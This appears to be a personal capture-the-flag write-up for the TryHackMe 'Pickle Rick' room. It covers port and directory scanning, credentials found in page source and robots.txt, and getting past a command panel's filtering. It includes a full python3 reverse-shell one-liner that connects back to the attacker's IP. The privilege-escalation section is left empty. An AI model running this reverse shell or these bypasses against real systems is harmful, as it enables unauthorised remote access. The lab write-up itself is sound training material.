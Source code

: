 https://tryhackme.com/room/picklerick

BoxIP = 10.10.233.219

**Basic Enumeration**
nmap -sC -sV -Pn -oN nmap_initial 10.10.233.219
-sC = common scripts
-sV = Versioning
-Pn = no pings
-oN output notation

**Open Ports**
Open 10.10.233.219:22
Open 10.10.233.219:80


**automated web enumeration**
nikto -h 10.10.233.219

gobuster dir -u http://10.10.233.219/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -x txt,php 
/assets
/portal.php
/robots.txt


**robots.txt**
Wubbalubbadubdub


**Page source points of interest**
homepage = 
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
  
 **/protals.php**
 using the found username and the word from robots.txt grants us access to a command panel page
 
 
 **Initial Foothold**
 There is some filtering on the command pannel for concatonation and some other commands but using 'strings' command allows us to read files
 Ingredient 1 = mr. meeseek hair
 
 
 Using Netcat does not work but puttering around I found that python3 was usable on the system. Using revshells.com I grabbed a python3 reverse shell script
 export RHOST="10.9.2.110";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
 
 and we popped a shell on a NC listener
 
 **PrivEsc**
 
 
 
  
